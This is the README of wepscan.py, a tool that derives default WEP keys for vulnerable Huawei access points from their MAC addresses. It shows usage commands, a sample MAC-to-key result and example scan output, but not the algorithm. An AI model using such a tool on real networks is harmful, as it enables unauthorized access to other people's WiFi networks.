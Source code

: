 # wepscan.py

[![Join the chat at https://gitter.im/ksaver/wepscan](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/ksaver/wepscan?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
Scan WiFi networks and show up default WEP keys for vulnerable Huawei access points.

## Usage:

### View arguments:
```bash
$ ./wepscan.py -h
usage: wepscan.py [-h] [-m MACADDRESS] [-i INTERFACE]

optional arguments:
  -h, --help            show this help message and exit
  -m MACADDRESS, --mac-address MACADDRESS
                        Mac address to wep key (formerly mac2wep).
  -i INTERFACE, --interface INTERFACE
                        WiFi interface to perform scanning.
```

### Get the default WEP key for a single MAC address:
```bash
$ ./wepscan.py -m 5C:4C:A9:30:FF:4C 
[+] SUFFIX: c5eb, DEFAULT WEP KEY: 6434386463
```

### Scan WiFi networks with normal user priviledges:
(It will show only the currently connected network..)
```bash
$ ./wepscan.py -i wlan0
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
 |    | NETWORK            | ADDRESS            | SIGNAL | SUFFIX | DEFAULT KEY  |
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
 |  1 | SKYNET             | 00:11:22:33:AA:FF  | 24/70  |        |              |
 + -- + ------------------ + ------------------ + ------ + ------ + ------------ +
```

### Scan WiFi networks with sudo or root priviledges:
```bash
$ sudo ./wepscan.py -i wlan0
```
![wepscan](wepscan-01.png "wepscan screenshot")
